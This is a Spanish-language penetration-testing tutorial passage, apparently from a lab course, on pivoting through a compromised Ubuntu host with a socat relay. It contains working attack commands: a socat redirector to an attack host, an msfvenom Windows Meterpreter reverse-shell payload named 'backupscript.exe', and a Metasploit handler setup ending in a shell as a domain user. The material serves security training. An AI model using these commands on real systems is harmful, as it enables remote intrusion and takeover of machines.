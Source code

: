 [Socat](https://linux.die.net/man/1/socat) es una herramienta de relay bidireccional que puede crear sockets entre `2` canales de red independientes sin necesidad de utilizar SSH tunneling. Actúa como un redireccionador que puede escuchar en un host y puerto y redirigir esos datos a otra dirección IP y puerto. Podemos iniciar el listener de Metasploit usando el mismo comando mencionado en la sección anterior en nuestro host de ataque, y podemos iniciar `socat` en el servidor Ubuntu.

### Starting Socat Listener

```r
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

Socat escuchará en localhost en el puerto `8080` y redirigirá todo el tráfico al puerto `80` en nuestro host de ataque (10.10.14.18). Una vez que nuestro redireccionador esté configurado, podemos crear un payload que se conectará a nuestro redireccionador, que está ejecutándose en nuestro servidor Ubuntu. También iniciaremos un listener en nuestro host de ataque porque tan pronto como socat reciba una conexión de un objetivo, redirigirá todo el tráfico al listener de nuestro host de ataque, donde obtendremos una shell.

### Creating the Windows Payload

```r
[!bash!]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 743 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

Recuerda que debemos transferir este payload al host de Windows. Podemos utilizar algunas de las mismas técnicas utilizadas en secciones anteriores para hacerlo.

### Starting MSF Console

```r
[!bash!]$ sudo msfconsole

<SNIP>
```

### Configuring & Starting the multi/handler

```r
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```

Podemos probar esto ejecutando nuestro payload en el host de Windows nuevamente, y deberíamos ver una conexión de red desde el servidor Ubuntu esta vez.

### Establishing the Meterpreter Session

```r
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.18:80 -> 127.0.0.1 ) at 2022-03-07 11:08:10 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```